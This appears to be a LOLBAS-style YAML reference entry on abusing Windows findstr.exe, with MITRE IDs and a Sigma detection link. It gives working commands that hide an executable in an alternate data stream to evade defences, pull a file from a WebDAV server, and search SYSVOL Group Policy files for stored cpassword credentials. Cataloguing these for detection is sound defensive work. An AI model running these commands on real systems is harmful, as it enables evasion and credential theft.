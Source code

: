 ```yaml
---
Name: Findstr.exe
Description: Write to ADS, discover, or download files with Findstr.exe
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: findstr /V /L W3AllLov3LolBas c:\ADS\file.exe > c:\ADS\file.txt:file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.
    Usecase: Add a file to an alternate data stream to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /V /L W3AllLov3LolBas \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.
    Usecase: Add a file to an alternate data stream from a webdav server to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /S /I cpassword \\sysvol\policies\*.xml
    Description: Search for stored password in Group Policy files stored on SYSVOL.
    Usecase: Find credentials stored in cpassword attrbute
    Category: Credentials
    Privileges: User
    MitreID: T1552.001
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: findstr /V /L W3AllLov3LolBas \\webdavserver\folder\file.exe > c:\ADS\file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is downloaded to the target file.
    Usecase: Download/Copy file from webdav server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\findstr.exe
  - Path: C:\Windows\SysWOW64\findstr.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_findstr.yml
Resources:
  - Link: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

